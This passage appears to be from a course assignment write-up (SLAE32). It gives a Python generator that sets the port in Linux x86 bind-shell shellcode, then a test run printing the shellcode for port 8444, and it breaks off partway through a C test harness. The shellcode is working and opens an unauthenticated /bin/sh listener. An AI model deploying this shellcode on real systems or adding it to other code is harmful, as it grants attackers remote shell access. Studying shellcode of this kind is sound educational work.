 ### Source code
{% highlight python linenos %}
#!/usr/bin/env python

import sys

SHELLCODE=\
"\"\\x31\\xc9\\xf7\\xe1\\x99\\x6a\\x66\\x58\\x6a\\x01\\x5b\\x51\\x6a\\x01\\x6a\\x02\\x89\\xe1\\xcd\\x80
\\x97\\x6a\\x66\\x58\\x6a\\x02\\x5b\\x52\\x66\\x68%s\\x66\\x53\\x89\\xe1\\x6a\\x10\\x51\\x57\\x89\\xe1
\\xcd\\x80\\x6a\\x66\\x58\\x6a\\x04\\x5b\\x31\\xf6\\x56\\x57\\x89\\xe1\\xcd\\x80\\x6a\\x66\\x58\\x6a\\x05
\\x5b\\x56\\x56\\x57\\x89\\xe1\\xcd\\x80\\x89\\xc3\\x6a\\x02\\x59\\xb0\\x3f\\xcd\\x80\\x49\\x79\\xf9\\x6a
\\x0b\\x58\\x31\\xc9\\x51\\x51\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\xcd\\x80\""

if len(sys.argv) != 2:
  print("[-1] ERROR: Enter the port number")
  exit()

port=sys.argv[1]

if ((int(port) > 65535) or (int(port) < 256)):
    print("\n[-] ERROR: Port number must be between 256 and 65535\n")
    exit()

hexport = hex(int(port)).replace('0x','')
if len(hexport)<4:
    hexport = '0'+hexport

if '00' in hexport[:2] or '00' in hexport[2:4]:
    print "[-] FAILED: port number null bytes found!, use other port"
    sys.exit(1)

print("Port: %s"% port)
print("Hex Port: %s"% hexport)
print("\nShellcode:")
print(SHELLCODE%("\\x" + str(hexport[:2]) + "\\x" + str(hexport[2:4])))
print("\n")
{% endhighlight %}

### Testing

Test the port customization script, for example change the shellcode port number to `8444`
{% highlight console %}
kecebong@ubuntu:~/slae32/assigment/bind/asm$ ./gen_bin_tcp.py 8444
Port: 8444
Hex Port: 20fc

Shellcode:
"\x31\xc9\xf7\xe1\x99\x6a\x66\x58\x6a\x01\x5b\x51\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x97\x6a\x66\x58\x6a\x02
\x5b\x52\x66\x68\x20\xfc\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x6a\x66\x58\x6a\x04\x5b\x31\xf6
\x56\x57\x89\xe1\xcd\x80\x6a\x66\x58\x6a\x05\x5b\x56\x56\x57\x89\xe1\xcd\x80\x89\xc3\x6a\x02\x59\xb0\x3f
\xcd\x80\x49\x79\xf9\x6a\x0b\x58\x31\xc9\x51\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"

kecebong@ubuntu:~/slae32/assigment/bind/asm$ cat skel.c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc9\xf7\xe1\x99\x6a\x66\x58\x6a\x01\x5b\x51\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x97\x6a\x66\x58\x6a\x02